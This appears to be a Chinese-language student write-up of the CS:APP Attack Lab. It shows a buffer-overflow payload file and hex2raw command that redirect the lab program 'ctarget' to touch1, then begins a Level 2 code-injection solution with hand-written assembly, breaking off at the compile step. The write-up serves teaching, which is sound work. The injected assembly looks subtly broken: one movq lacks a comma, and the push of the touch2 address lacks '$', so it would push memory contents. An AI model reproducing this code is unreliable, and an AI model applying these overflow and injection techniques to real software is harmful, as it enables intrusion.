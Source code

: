 

![image-20220504201032556](lab3.assets/image-20220504201032556.png)

>因此，答案就呼之欲出了。exploit-1.txt的内容填为
>
>BB BB BB BB BB BB BB BB
>BB BB BB BB BB BB BB BB
>BB BB BB BB BB BB BB BB
>BB BB BB BB BB BB BB BB
>BB BB BB BB BB BB BB BB
>c0 17 40 00 00 00 00 00
>
>```bash
>cat exploit-1.txt | ./hex2raw | ./ctarget -q 
>#或者用
>./hex2raw < exploit-1.txt | ./ctarget -q
>```

![image-20220504201254902](lab3.assets/image-20220504201254902.png)

##### Level2

> 该任务是在test执行完getbuf后去执行touch2而不是进行返回，与touch1不同的是touch2有一个参数，我们需要在执行touch2之前将参数设置为cookie.txt中的值，该任务需要进行代码注入。其实每次程序运行的时候会有栈随机化这个操作，不过作者已经把相关的设置都关了，因此我们可以进行代码注入。

> 该问题比第一个问题难度加了不少，主要是我没有接触过具体的代码注入问题，只在书上看到过。
>
> 思路：
>
> - 具体就是这么一个流程，执行完getbuf后，跳转到我们自己写的代码当中，然后在我们自己注入的代码中使其跳转到touch2，注意不能使用call和jmp，那么我们只能使用ret了。

> 编写的注入代码：
>
> ```asm
> movq $0x59b997fa %rdi #将cookie.txt中的值传到%rdi中
> pushq 0x40171c #touch2函数的地址
> ret
> ```
>
> 需要注意的是我们要将上述注入的代码转为计算机可以执行的指令序列（机器码）, 利用gcc可以实现
>
> ```bash
> gcc -c exploit-2.s
> objdump -d exploit-2.o > exploit-2.d